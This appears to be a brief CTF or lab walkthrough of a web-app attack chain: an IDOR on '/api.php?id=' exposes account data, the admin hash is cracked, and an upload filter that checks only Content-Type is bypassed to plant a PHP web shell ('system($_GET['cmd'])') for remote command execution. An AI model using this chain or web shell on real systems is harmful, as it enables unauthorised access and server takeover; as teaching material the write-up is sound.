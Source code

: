 # IDOR --> Admin account take over --> php file upload --> rce

1)Upon signing up, the web app leaks the API endpoint "/api.php?id=".

2)From these endpoints, we can access other account information (IDOR - Insecure Direct Object Reference).

3)Find the admin's account information and crack the hashed password.

4)Log in to the admin account and use the upload image function to upload a malicious PHP file;- only the admin account has access to upload images. (One can also find the leaked API endpoint from the upload page)

5)The web app only checks the Content-Type of the file and allows uploading.

6)If we change the "Content-Type" header to image/jpg, image/png, or image/jpeg (which can be found after the 'Content-Disposition' header), the web app will allow uploading any file (we will use cmd.php).


------WebKitFormBoundaryTVUL4RcAiWXxDizN


Content-Disposition: form-data; name="fileToUpload"; filename="cmd.php"


Content-Type: image/jpg  <-- change this



7)After successful upload, we can copy the randomly generated file name from the prompt. Try to access that file by visiting http://url/uploads/Random-file.php?cmd=id (RCE)



cmd.php:

<?php system($_GET['cmd']);?>
